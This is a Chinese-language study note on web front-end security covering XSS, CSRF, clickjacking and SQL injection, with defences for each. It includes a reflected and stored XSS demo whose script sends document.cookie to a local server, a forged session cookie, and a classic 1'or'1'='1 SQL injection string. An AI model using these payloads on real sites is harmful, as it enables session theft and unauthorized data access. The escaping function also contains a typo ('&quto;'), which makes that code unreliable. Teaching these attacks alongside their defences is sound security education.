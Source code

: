 我们必须理解这么几个方面：sql 注入、xss、csrf、cookie 安全、密码安全等等。
sql 注入，要理解 sql 注入的场景，它的原理是什么，当前的数据库的解决方案是什么？（不知道密码，利用一些特定的 sql 语句，返回用户信息）
xss 攻击，常见的攻击场景，什么类型的网站容易被 xss 攻击，整个流程的原理是什么？
csrf 攻击，其实就是一个钓鱼网站，要理解为什么会收到攻击，应该采取什么策略进行防御。
cookie 安全，要理解为什么用 token，优势等。
密码安全，主要是用户登陆，用户数据提交，加密，存入数据库的一整个流程。
其次，其实还有 http 和 https 的问题等等。

# XSS

[不错的](https://my.oschina.net/u/4446873/blog/3229798/print)

概念: Cross Site Scripting 跨站脚本攻击

比如，一个博客网站，我发表一篇博客，其中嵌入 script 脚本 脚本内容 获取 cookie，发送到我的服务器(服务端配合跨域)，
发布这篇博客，有人查看，轻松拿到了访问者的 cookie

XSS (Cross-Site Scripting)，跨站脚本攻击，因为缩写和 CSS 重叠，所以只能叫 XSS。跨站脚本攻击是指通过
存在安全漏洞的 Web 网站注册用户的浏览器内运行非法的非本站点 HTML 标签或 JavaScript 进行的一种攻击。

跨站脚本攻击有可能造成以下影响:

- 利用虚假输入表单骗取用户个人信息。
- 利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求。
- 显示伪造的文章或图片。

1. 反射型 - url 参数直接注⼊

```js
// 普通 http://localhost:3000/?from=china
// alert尝试 http://localhost:3000/?from=<script>alert(3)</script>
// 获取Cookie http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script>

// hack.js
var img = new Image();
img.src = 'http://localhost:4000/img?c=' + document.cookie;

// 短域名伪造 https://dwz.cn/
// 伪造cookie入侵 chrome document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNTY1MDAxO DYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="
```

2. 存储型 - 存储到 DB 后读取时注入

```js
// 评论 <script>alert(1)</script>
// 跨站脚本注入 我来了<script src="http://localhost:4000/hack.js"></script>
```

XSS 攻击的危害 - Scripting 能干啥就能干啥
获取页面数据
获取 Cookies
劫持前端逻辑
发送请求
偷取网站的任意数据
偷取用户的资料
偷取用户的秘密和登录态
欺骗用户

3. 防范手段

```js
//  ejs转义小知识
<% code %>用于执行其中javascript代码； <%= code %>会对code进行html转义； <%- code %>将不会进行转义
```

- 请求 head 配置

```js
ctx.set('X-XSS-Protection', 0) // 禁止XSS过滤
http://localhost:3000/?from=<script>alert(3)</script> 可以拦截 但伪装一下就不行了
```

0 禁止 XSS 过滤。
1 启用 XSS 过滤（通常浏览器是默认的）。 如果检测到跨站脚本攻击，浏览器将清除页面（删除不安全的部
分）。
1;mode=block 启用 XSS 过滤。 如果检测到攻击，浏览器将不会清除页面，而是阻止页面加载。
1; report= (Chromium only)
启用 XSS 过滤。 如果检测到跨站脚本攻击，浏览器将清除页面并使用 CSP report-uri 指令的功能发送违规
报告。

- CSP 内容安全策略
![](./img/csp.png.png)

- 转义字符 尖括号啊单双引号做一些转义 就不会执行了 比如我们的 script 标签
- 黑名单
  用户的输入永远不可信任的，最普遍的做法就是转义输入输出的内容，对于引号、尖括号、斜杠进行转义

```js
// npm - xss
替换特殊字符： 如 < 变成 &lt; > 变成&gt
<script>变为  &lt;script&gt;,直接显示，而不会作为脚本执行
前后端都要替换
function escape(str) {
  str = str.replace(/&/g, '&amp;');
  str = str.replace(/</g, '&lt;');
  str = str.replace(/>/g, '&gt;');
  str = str.replace(/"/g, '&quto;');
  str = str.replace(/'/g, '&#39;');
  str = str.replace(/`/g, '&#96;');
  str = str.replace(/\//g, '&#x2F;');
  return str;
}
```

富文本来说，显然不能通过上面的办法来转义所有字符，因为这样会把需要的格式也过滤掉。对于这种情
况，通常采用白名单过滤的办法，当然也可以通过黑名单过滤，但是考虑到需要过滤的标签和标签属性实在
太多，更加推荐使用白名单的方式。

- 白名单

```js
const xss = require('xss');
let html = xss('<h1 id="title">XSS Demo</h1><script>alert("xss");</script>');
// -> <h1>XSS Demo</h1>&lt;script&gt;alert("xss");&lt;/script&gt; console.log(html)
```

- HttpOnly Cookie
这是预防 XSS 攻击窃取用户 cookie 最有效的防御手段。Web 应 用程序在设置 cookie 时，将其属性设为
HttpOnly，就可以避免该网页的 cookie 被客户端恶意 JavaScript 窃取，保护用户 cookie 信息。
<!-- response.addHeader("Set-Cookie", "uid=112; Path=/; HttpOnly") -->

# CSRF

CSRF(Cross Site Request Forgery)，即跨站请求伪造，是一种常见的 Web 攻击，它利用用户已登录的身份，
在用户毫不知情的情况下，以用户的名义完成非法操作。

- 用户已经登录了站点 A，并在本地记录了 cookie
- 在用户没有登出站点 A 的情况下（也就是 cookie 生效的情况下），访问了恶意攻击者提供的引诱危险站点 B
  (B 站点要求访问站点 A)。
- 站点 A 没有做任何 CSRF 防御

- demo

```js
// 比如 登录 http://localhost:4000/csrf.html
⼀个典型的CSRF攻击有着如下的流程：
1. 受害者登录 a.com ，并保留了登录凭证（Cookie）
2. 攻击者引诱受害者访问了 b.com b.com 向 a.com 发送了⼀个请求： a.com/act=xx 浏览器会默认携带a.com的Cookie
3. a.com接收到请求后，对请求进⾏验证，并确认是受害者的凭证，误以为是受害者⾃⼰发送的请求
4. a.com以受害者的名义执⾏了act=xx ，这个可以理解成 form表单通过action接口提交
5. 攻击完成，攻击者在受害者不知情的情况下，冒充受害者，让a.com执⾏了⾃⼰定义的操作
```

CSRF 攻击危害

- 利用用户登录态
- 用户不知情 利用登录状态
- 完成业务请求
- 盗取用户资金（转账，消费）
- 冒充用户发帖背锅
- 损害网站声誉

防御

- 禁止第三方网站带 Cookie - 有兼容性问题
- Referer Check - Https 不发送 referer 来源 referer，看看是谁发过来的，而且 referer 是可以被伪造的，不可可信

```js
app.use(async (ctx, next) => {
  await next();
  const referer = ctx.request.header.referer;
  console.log('Referer:', referer);
});
```

- 验证码 - 增加一个人机识别的过程
- cookie 值进行 hash
![](./img/cookiehash.png.png)

## 如何预防 CSRF?

CSRF 通常从第三⽅⽹站发起，被攻击的⽹站⽆法防⽌攻击发⽣，只能通过增强⾃⼰⽹站针对 CSRF 的防护能⼒来提升 安全性。

CSRF 的两个特点： CSRF（通常）发⽣在第三⽅域名。 CSRF 攻击者不能获取到 Cookie 等信息，只是使⽤。
针对这两点，我们可以专⻔制定防护策略，如下： 阻⽌不明外域的访问 同源检测 Samesite Cookie 提交时要求附加本域才能获取的信息 CSRF Token 双重 Cookie 验证 因此我们可以针对性得进⾏预防

![](./img/cookie.png)

# 点击劫持 - clickjacking

点击劫持是一种视觉欺骗的攻击手段。攻击者将需要攻击的网站通过 iframe 嵌套的方式嵌入自己的网页中，
并将 iframe 设置为透明，在页面中透出一个按钮诱导用户点击。

防御？

- X-FRAME-OPTIONS
  用 iframe 嵌套的点击劫持攻击。
  该响应头有三个值可选，分别是
  DENY，表示页面不允许通过 iframe 的方式展示
  SAMEORIGIN，表示页面可以在相同域名下通过 iframe 的方式展示
  ALLOW-FROM，表示页面可以在指定来源的 iframe 中展示
  ctx.set('X-FRAME-OPTIONS', 'DENY')

# SQL 注入

```
// 填入特殊密码 1'or'1'='1 // 拼接后的SQL SELECT * FROM test.user WHERE username = 'laowang' AND password = '1'or'1'='1'
```

防御？
所有的查询语句建议使用数据库提供的参数化查询接口\*\*，参数化的语句使用参数而不是将用户输入变量嵌
入到 SQL 语句中，即不要直接拼接 SQL 语句。例如 Node.js 中的 mysqljs 库的 query 方法中的 ? 占位参
数。

```
// 错误写法 const sql = ` SELECT * FROM test.user WHERE username = '${ctx.request.body.username}' AND password = '${ctx.request.body.password}' `console.log('sql', sql) res = await query(sql) // 正确的写法 const sql = ` SELECT * FROM test.user WHERE username = ? AND password = ? `console.log('sql', sql, ) res = await query(sql,[ctx.request.body.username, ctx.request.body.password])
```

严格限制 Web 应用的数据库的操作权限**，给此用户提供仅仅能够满足其工作的最低权限，从而最大限度的
减少注入攻击对数据库的危害
后端代码检查输入的数据是否符合预期**，严格限制变量的类型，例如使用正则表达式进行一些匹配处理。
对进入数据库的特殊字符（'，"，\，<，>，&，\*，; 等）进行转义处理，或编码转换\*\*。基本上所有的后端
语言都有对字符串进行转义处理的方法，比如 lodash 的 lodash.\_escapehtmlchar 库。

# 请求劫持
# 前端安全
